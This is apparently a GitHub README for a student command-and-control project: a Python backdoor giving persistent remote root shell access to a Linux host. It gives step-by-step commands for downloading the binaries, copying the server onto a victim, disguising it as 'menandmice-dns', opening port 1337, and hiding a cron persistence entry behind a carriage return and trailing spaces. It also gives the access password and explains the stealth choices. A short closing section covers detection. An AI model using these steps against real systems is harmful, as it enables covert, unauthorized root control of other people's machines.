 # Command and Control Project

This repo contains the implementation of a backdoor that can be installed on a Linux machine running Python 2.7 and allows for remote root shell access that persists over machine reboots. Installation of the backdoor requires root privileges. This has been tested on Kali (attacker's machine) and a variation of CentOS7 (host machine).

## Installation

Download the compiled client and server files onto your kali machine (or whichever machine you will be using to access the backdoor).
```shell
wget "https://github.com/Creampelt/c2-project/raw/main/dist/client" & wget "https://github.com/Creampelt/c2-project/raw/main/dist/server"
```

Make client and server files executable.
```shell
chmod +x client server
```

Copy the server executable onto the host machine.
```shell
scp server [user]@[IP address]:/home/user/server
```

SSH into the host machine and elevate yourself to root.

As root, move the server file and rename it.
```shell
mv /home/user/server /usr/bin/menandmice-dns
```

Disable the machine’s firewall on port 1337.
```shell
sudo firewall-cmd --permanent --add-port=1337/tcp
```

Edit the machine’s cron jobs.
```shell
crontab -e
```

Add the following line (including the 108 trailing spaces) to the bottom of the file. You will need to replace the “\r” character with Ctrl-V + Ctrl-M (in VIM), or Meta-V + Meta-M (in nano). For other editors, Google how to add a **carriage return** character.
```shell
* * * * * /usr/bin/flock -n /tmp/fcj.lockfile /usr/bin/menandmice-dns > /dev/null 2>&1 #\r                                                                                                            
```

Verify that the line you just added is blank when running
```shell
crontable -l
```
If it is still visible, you may need to add more spaces.

The backdoor should be up and running! You may need to wait for up to one minute. You can verify that the backdoor is running with the following command:
```shell
sudo ss -tulpn | grep 1337
```

The expected output should be something like:
```shell
tcp    LISTEN     0      1      10.0.2.5:1337    *:*    users:(("menandmice-dns",pid=4957,fd=4))
```

Restart the host machine for the firewall changes to take effect. It may take up to a minute after rebooting for the server to be up.
```shell
sudo reboot
```

From the kali machine, run the client executable followed by the IP address of the host machine. For example, my host machine’s address is 10.0.2.5, so I would run
```shell
./client 10.0.2.5
```

When prompted for a password, enter “mainframe”.

That’s it! You should have root access to the host machine. If for any reason the program crashes, it should reboot within one minute.

## How it works

The backdoor creates a server that listens on port 1337. Upon receiving a connection request, the server verifies the client by sending a password request (simply a string, “PASSWORD VERIFICATION”). If the client does not respond with the correct password within three attempts, the server closes the connection. Otherwise, the server simply executes any input received from the client in the shell and sends the output back to the client (note: “cd” is handled as a special case, since it requires changing the current working directory of the program). The backdoor script is added as a cron job using flock, which will only run the program if it is not currently running (i.e. on startup or if the program crashes). Additionally, all data sent from the server and client is encrypted using symmetric AES encryption.

The implementation for the server and client can be found under [server.py](https://github.com/Creampelt/c2-project/blob/main/server.py) and [client.py](https://github.com/Creampelt/c2-project/blob/main/client.py) respectively. Code for encryption and password verification can be found under [encrypt.py](https://github.com/Creampelt/c2-project/blob/main/server.py). Built files are in the [dist/](https://github.com/Creampelt/c2-project/tree/main/dist) directory.

## Addressing requirements

### Remote root shell access:

The server executes any commands received from the client, and returns any output from those commands to the client. Since the cron job is created with root permissions, the server will execute all commands as root.

### Persistence even if the machine reboots:

Since the script is run by a cron job, the longest that the server will be down is one minute. This ensures persistence across reboots and crashes.

### Configuration:

The program is configured through the IP address parameter on the client side. The server is automatically hosted on the local host, so it will adapt to any machine that it is run on. If desired, you can also change the port of the server and client by changing the PORT constant at the top of server.py and client.py and recompiling using pyinstaller. Note that the user’s IP address does not need to be configured, as the identity of the user is verified through the passcode.

### Authentication:

The server authenticates the client by requiring a password before allowing access to the shell. Additionally, AES encryption of data sent over the socket prevents third parties from spying on or intercepting/interfering with network traffic.

### Hiding itself:

There are two main ways that this program hides itself. The first is as a cron job — we added the carriage return character, followed by 100 spaces, so that when the contents of the file are cat-ed, the spaces overwrite the cron job and obscure that specific line. The second is through naming — I selected the name “menandmice-dns” because the menandmice-dns service is registered in /etc/services on port 1337, so a cursory glance/comparison between /etc/services and the service running on port 1337 will not raise suspicion.

## Detecting the backdoor

The best method to detect the backdoor is through a more thorough examination of the cron jobs. While our current configuration does obscure the command when running `cat` or `crontable -l`, running `crontable -e` will immediately expose it.

